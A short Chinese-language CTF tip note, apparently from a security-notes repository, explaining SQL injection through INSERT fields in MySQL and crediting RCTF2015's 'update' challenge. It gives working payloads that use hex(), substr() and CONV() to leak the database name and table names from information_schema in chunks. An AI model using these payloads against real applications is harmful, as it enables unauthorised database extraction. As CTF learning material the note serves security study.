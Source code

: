 在sql注入中，如果存在insert的话，可以在字段中进行拼接

但是需要技巧，这里以在字段中添加数据库名的查询为例

```
'test1'+(select database())
```

![1558440861774](img/Insert-tips1.png)

那么执行后会出现以下结果

![1558441007108](img/Insert-tips2.png)

返回为0，但是如果利用如下技巧

```
'test1'+(select hex(database()))
```

![1558441115745](img/Insert-tips3.png)

再进行16进制解码就能获取结果

但是如果太长会出现截断的问题，比如本来的查询语句如下

```
select group_concat(table_name) from information_schema.tables where table_schema=database()
```

此时用上述payload会发生以下情况,不能完全编码

![1558442002178](img/Insert-tips4.png)

![1558442033923](img/Insert-tips5.png)

这时候可以用截取substr函数来获取结果，和进制转换CONV来实现，个人猜测是没法显示字母，只能显示数字所以要转成10进制，上面数据库ctf没有字母是例外

CONV把16进制转为10进制可以使结果更长，但是超过12位会回显科学计数法，所以要用substr来截断，mid也行

最后使用的payload如下

```
//第一截
'test1'+
(select CONV(substr(hex((select group_concat(table_name) from information_schema.tables where table_schema=database())),1,12),16,10))

//第二截
'test1'+
(select CONV(substr(hex((select group_concat(table_name) from information_schema.tables where table_schema=database())),13,12),16,10))

//之后依次
```

![1558443107654](img/Insert-tips6.png)

![1558443372191](img/Insert-tips7.png)



知识点来源于：RCTF2015 WEB update
